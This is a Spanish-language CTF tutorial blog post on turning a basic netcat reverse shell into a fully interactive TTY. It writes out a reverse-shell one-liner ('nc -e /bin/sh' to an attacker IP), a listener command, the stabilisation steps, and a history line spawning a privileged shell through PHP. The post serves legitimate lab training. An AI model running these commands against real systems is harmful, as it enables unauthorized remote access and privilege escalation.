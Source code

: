 ```yaml
---
title: "Domina el TTY: Tu Guía para Explotar Shells Durante CTFs"
date: 2024-06-12 19:00:00 +0200
categories: [CTF, Tutoriales]
tags: [tty, shell, reverse-shell, Tutoriales]
---
```



¡Bienvenidos a nuestro tutorial sobre TTY en contextos de CTF! ¿Alguna vez hemos logrado acceder a una shell durante un CTF y nos hemos encontrado con que es casi inutilizable? Aquí vamos a mostrar cómo podemos mejorar nuestra experiencia y hacer nuestra shell mucho más interactiva y funcional.

## ¿Qué es el TTY y por qué es importante?

El TTY (abreviatura de teletypewriter) se refiere a la terminal en la que interactuamos con nuestro sistema. Cuando explotamos una vulnerabilidad y obtenemos acceso a una shell, a menudo es básica y limitada. Mejorar esta shell con un tratamiento adecuado de TTY puede transformar nuestra experiencia, permitiéndonos interactuar con el sistema objetivo como si estuviéramos trabajando directamente desde su consola.

## Ejemplo sin TTY: Reverse shell Básica

Supongamos que hemos lanzado una reverse shell con este comando desde la máquina objetivo:

```bash
nc -e /bin/sh 192.168.1.100 5555
```

Y nuestra máquina atacante está escuchando con:

```bash
nc -lvnp 5555
```

Una vez que la conexión se establece, aquí está lo que enfrentamos:


### No hay autocompletado: Al presionar Tab para completar comandos o nombres de archivos simplemente no funciona. Ejemplo:
```bash
cd /sys/ker	    aa
```
### No podemos limpiar la pantalla: Los comandos como clear no funcionan, dejando la sesión visualmente desordenada. Ejemplo:
```bash
clear
TERM environment variable not set.
```

### Control de señales deficiente: Intentar detener un proceso con Ctrl+C cerrará la shell. Ejemplo:

```bash
lrwxrwxrwx   1 root root     7 jun  6 09:10 bin -> usr/bin
drwxr-xr-x   3 root root  4096 jun  6 09:14 boot
drwxr-xr-x  17 root root  3260 jun 12 20:13 dev
drwxr-xr-x  76 root root  4096 jun 12 20:53 etc
drwxr-xr-x   3 root root  4096 jun  6 10:42 home
lrwxrwxrwx   1 root root    30 jun  6 09:12 initrd.img -> boot/initrd.img-6.1.0-21-amd64
lrwxrwxrwx   1 root root    30 jun  6 09:11 initrd.img.old -> boot/initrd.img-6.1.0-18-amd64
lrwxrwxrwx   1 root root     7 jun  6 09:10 lib -> usr/lib
lrwxrwxrwx   1 root root     9 jun  6 09:10 lib64 -> usr/lib64
drwx------   2 root root 16384 jun  6 09:10 lost+found
drwxr-xr-x   3 root root  4096 jun  6 09:10 media
drwxr-xr-x   2 root root  4096 jun  6 09:10 mnt
drwxr-xr-x   3 root root  4096 jun  6 11:05 opt
dr-xr-xr-x 229 root root     0 jun 12 20:12 proc
drwx------   4 root root  4096 jun  6 11:31 root
drwxr-xr-x  19 root root   620 jun 12 20:13 run
lrwxrwxrwx   1 root root     8 jun  6 09:10 sbin -> usr/sbin
drwxr-xr-x   3 root root  4096 jun  6 10:28 srv
dr-xr-xr-x  13 root root     0 jun 12 20:12 sys
drwxrwxrwt  10 root root  4096 jun 12 20:39 tmp
drwxr-xr-x  12 root root  4096 jun  6 09:10 usr
drwxr-xr-x  12 root root  4096 jun  6 09:19 var
lrwxrwxrwx   1 root root    27 jun  6 09:12 vmlinuz -> boot/vmlinuz-6.1.0-21-amd64
lrwxrwx: not foundt root    27 jun  6 09:11 vmlinuz.old -> boot/vmlinuz-6.1.0-18-amd64
^[[A^[[A
sh: 7: 
^C
    ~  ✘ 1  took  42s  
```

### Caracteres extraños al navegar por el historial: Las flechas del teclado generan caracteres como  ^[[A [[2~^[[H ^[[B.  Ejemplo:
```bash
^[[A^[[A^[[B^[[C^[[D^[[C^[[B^[[D^[[C^[[A^[[D^[^[[C^[[A^[[D^[[2~^[[H
```
## Esta situación, aunque funcional, está lejos de ser ideal. En la siguiente sección, vamos a mostrar cómo podemos transformar esta experiencia básica en algo mucho más poderoso.

## Mejorando la Experiencia: Uso de TTY en Reverse shell

Ahora que tenemos una conexión de shell básica, vamos a transformarla en una interfaz completamente interactiva. Aquí te mostramos cómo podemos lograr una experiencia de shell completa, utilizando el método script para simular un TTY:

### Asegurar una conexión básica: 
Nos aseguramos de que tenemos una shell básica corriendo como la que hemos establecido previamente con Netcat.

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
###  Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos 
```bash
Control+Z 
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local: 
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```
### Configura el tipo de terminal:

```bash
xterm
export TERM=xterm
export SHELL=bash
```
### Ajustar dimensiones del terminal
Ajustamos las dimensiones de la terminal para mostrar la información correctamente:
```bash
stty rows 52 columns 187
``` 
## Confirmamos que ahora si tenemos una Shell lista para trabajar!

Dimensiones en VI
 <img src="/img/posts/TTY.png" alt="Dimensiones VI">


control + C , no salimos de la Shell
```bash

jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
jenkins@find-me:~$ ^C
```
Podemos visualizar history
```bash
  13  /usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
   14  exit
   15  reset
   16  export TERM=xterm
   17  export SHELL=bash
   18  stty rows 52 columns 187
   19  vi
   20  clear
   21  history 
jenkins@find-me:~$ history 
```

<br>

Espero que os haya gustado esta guía y que os sea útil para mejorar vuestras habilidades en futuros CTFs. Seguid explorando y ajustando estos métodos según vuestras necesidades. Nos vemos pronto con más contenido que esperamos os ayude a seguir creciendo en este emocionante campo. ¡Hasta la próxima!